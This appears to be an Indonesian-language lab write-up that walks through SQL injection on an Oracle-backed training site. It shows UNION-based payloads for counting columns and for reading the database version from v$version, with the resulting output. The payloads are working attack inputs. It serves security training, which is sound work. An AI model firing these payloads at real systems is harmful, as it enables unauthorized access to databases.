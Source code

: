 ##  Write-up: SQL injection attack, querying the database type and version on Oracle

### Langkah-langkah:

1. **Buka lab** → intercept request pakai **Burp**.
   Contoh request:

   ```
   GET /filter?category=Corporate HTTP/2
   ```
   <img width="927" height="67" alt="image" src="https://github.com/user-attachments/assets/6136623d-bb73-427f-af5d-8cfdedddbe9f" />


2. **Uji injection** dengan menambahkan tanda `'`:

   ```
   /filter?category=Corporate'
   <img width="267" height="82" alt="image" src="https://github.com/user-attachments/assets/4ce723b1-acda-456b-a71e-c6e92a1961b8" />

   ```

   → Hasilnya muncul **500 Internal Server Error**, artinya vulnerable.

3. **Cari jumlah kolom** dengan `ORDER BY`:

   ```
   /filter?category=Corporate' ORDER BY 1--
   /filter?category=Corporate' ORDER BY 2--
   ```

   → Saat `ORDER BY 2` berhasil, tapi `ORDER BY 3` error → jumlah kolom = **2**.

4. **Uji UNION SELECT** untuk lihat output di halaman:

   ```
   /filter?category=Corporate' UNION SELECT 'aaa','bbb' FROM dual--
   ```

   → Teks `aaa` atau `bbb` muncul di halaman → injection berhasil.

5. **Ambil versi database Oracle**:

   ```
   /filter?category=Corporate' UNION SELECT banner,null FROM v$version--
   ```

   → Halaman menampilkan:

   ```
   Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production ...
   ```

   → Sesuai hint lab.

 **Lab Solved**
